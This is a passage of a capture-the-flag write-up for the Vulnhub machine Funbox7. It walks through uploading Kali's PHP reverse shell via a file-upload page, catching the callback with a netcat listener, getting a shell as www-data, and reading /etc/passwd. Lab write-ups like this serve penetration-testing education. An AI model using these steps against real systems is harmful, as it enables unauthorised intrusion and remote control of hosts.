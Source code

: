 ![Image](/assets/img/WriteUp/Vulnhub/Funbox7/Pasted image 20240331200745.png){: width="700" height="400" }

It looks like we can upload files and give permissions to files. Let's upload our reverse shell and before uploading edit it so it has my IP address of the attacker machine.

```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/Funbox7]
└─$ cp /usr/share/webshells/php/php-reverse-shell.php .

┌──(emvee㉿kali)-[~/Documents/Vulnhub/Funbox7]
└─$ nano php-reverse-shell.php 
```
Next we should start a netcat listener.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/Funbox7]
└─$ nc -lvp 1234              
listening on [any] 1234 ...

```

Everything is set, let's upload the file.

![Image](/assets/img/WriteUp/Vulnhub/Funbox7/Pasted image 20240331201017.png){: width="700" height="400" }


By refreshing the page we can see that our reverse shell has been uploaded.

![Image](/assets/img/WriteUp/Vulnhub/Funbox7/Pasted image 20240331201049.png){: width="700" height="400" }


To activate the reverse shell we should visit the web shell.

![Image](/assets/img/WriteUp/Vulnhub/Funbox7/Pasted image 20240331201322.png){: width="700" height="400" }

When we visit the page in the web browser, it indicates it is still loading. This is our sign to look at our netcat listener.


## Initial access

```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/Funbox7]
└─$ nc -lvp 1234              
listening on [any] 1234 ...
10.0.2.63: inverse host lookup failed: Unknown host
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.63] 35202
Linux funbox7 4.15.0-117-generic #118-Ubuntu SMP Fri Sep 4 20:02:41 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 18:12:23 up 46 min,  0 users,  load average: 0.00, 0.12, 1.44
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 

```
It looks like we got a connection as `www-data` from our victim.
One of the next steps is to enumerate the users on the system. Let's check the `/etc/passwd` file for the users.
```bash
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
```